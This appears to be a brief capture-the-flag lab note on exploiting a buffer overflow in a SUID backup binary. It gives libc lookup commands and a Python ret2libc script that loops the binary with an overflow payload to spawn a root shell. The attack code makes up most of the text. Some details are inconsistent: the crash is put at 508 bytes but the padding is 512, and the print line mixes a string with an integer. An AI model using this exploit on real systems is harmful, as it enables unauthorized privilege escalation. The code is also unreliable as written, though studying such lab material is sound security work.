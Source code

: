 In this example, we BOF a SUID binary, /usr/local/bin/backup. See [[Node.pdf]]

The binary appears to hit a segmentation fault if enough data is passed (508 bytes)

● Find libc address: `ldd /usr/local/bin/backup` 
● Find libc system function: `readelf -s /lib32/libc.so.6 | grep system` 
● Find libc exit function: `readelf -s /lib32/libc.so.6 | grep exit` 
● Find libc /bin/sh reference: `strings -a -t x /lib32/libc.so.6 | grep /bin/sh`

```python
import struct, subprocess

libc = 0xf75e2000
sysOffset = 0x0003a940
sysAddress = libc + sysOffset
exitOffset = 0x0002e7b0
exitAddress = libc + exitOffset
binsh = libc + 0x0015900b

payload = "A" * 512
payload += struct.pack("<I", sysAddress)
payload += struct.pack("<I", exitAddress)
payload += struct.pack("<I", binsh)

attempts = 0

while True:
    attempts += 1
    print "Attempts: " + attempts
    subprocess.call(["/usr/local/bin/backup", "-i",
"3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110",
payload])
```
